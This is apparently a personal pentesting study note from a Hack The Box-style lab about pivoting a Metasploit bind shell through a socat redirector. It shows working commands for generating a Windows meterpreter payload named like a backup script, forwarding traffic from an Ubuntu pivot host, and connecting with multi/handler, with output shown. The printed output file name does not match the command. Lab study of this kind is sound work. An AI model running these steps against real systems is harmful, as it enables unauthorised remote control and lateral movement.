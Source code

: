 ```yaml
---
title: Socat Bind Shell
draft: false
tags:
  - socat
---
```

Attacker  -> Ubuntu -> Windows

Windows server will start a listener and bind to a particular port. 

Attacker creates a bind shell payload for windows and execute it on the Windows host.

Socat redirector on Ubuntu will pass the bind connection coming from the metasploit to windows host.

## Create Windows Payload

```shell-session
jadu101@htb[/htb]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 499 bytes
Final size of exe file: 7168 bytes
Saved as: backupjob.exe
```


## Start Socat Bind Shell Listener

We will start socat bind shell listener on PivotHost:

```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```


## Start mult-handler

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```